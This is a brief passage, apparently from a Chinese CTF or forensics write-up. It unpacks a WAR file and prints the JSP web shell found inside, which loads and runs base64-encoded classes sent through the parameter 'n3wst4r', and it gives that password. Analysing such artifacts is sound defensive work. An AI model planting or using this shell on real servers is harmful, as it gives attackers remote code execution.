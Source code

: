 把war包保存下来解压一下

![image-20231210095102293](images/83.png)

```
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }
 
    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("n3wst4r");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
```

密码是n3wst4r
